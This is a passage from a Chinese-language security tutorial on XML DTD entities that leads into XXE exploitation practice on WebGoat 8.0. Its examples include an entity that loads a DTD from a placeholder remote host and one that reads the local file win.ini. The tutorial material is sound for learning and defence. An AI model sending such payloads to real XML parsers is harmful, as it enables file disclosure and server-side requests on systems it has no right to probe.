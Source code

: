 ### 内/外部 DTD 实体声明

什么是实体呢？可以可以想象成“常量”，提前定义好一个名和值，后面来调用它。

你看我们声明实体的语法和表示标签的类似，就是关键字从 ELEMENT 换成 ENTITY，同样定义外/内部实体区别在于有没有 `SYSTEM` 关键字。

实体还分为以下几种：

-   参数实体（parameter entities），定义时带有百分号。
-   内部实体（internal entities），定义不带百分号。
-   外部实体（external entities），定义不带百分号。

下面给出两种实体定义方式：

```xml
<!-- 内部实体定义 -->
<!ENTITY entity-name "entity-value">
<!ENTITY % entity-name "entity-value">

<!-- 外部实体定义 -->
<!ENTITY entity-name SYSTEM "URI/URL">
<!ENTITY % entity-name SYSTEM "URI/URL">
```

怎么去使用这两种实体？

内/外实体调用是要在标签页使用 `&` 开头，中间为实体名称，最后`;` 结尾。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE exp [    <!ENTITY % value SYSTEM "http://xxx.xxx.xxx.xxx/2.dtd">    <!-- 参数实体引用 -->    %value;]>
```

参数实体呢必须要在 DTD 中调用，直接用 `%` 跟上实体名称用 `;` 结尾就成。调用时 XML 解析器会吧对应名字替换成值，下例中 pass 实体在被引用时值会被替换成 `file://c:/windows/win.ini`。

```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE exp [
    <!ENTITY pass SYSTEM "file://c:/windows/win.ini">
    <!ENTITY shaodw SYSTEM "http://www.xxx.com/1.dtd">
]>

<!-- 外部实体引用 -->
<exp>
    &pass;
    &shaodw;
</exp>
```

## 利用

### file:// 读取文件

要是引用外部实体是一个文件，是不是能读取文件内容呢？下面使用 WebGoat 8.0 练习 XXE。
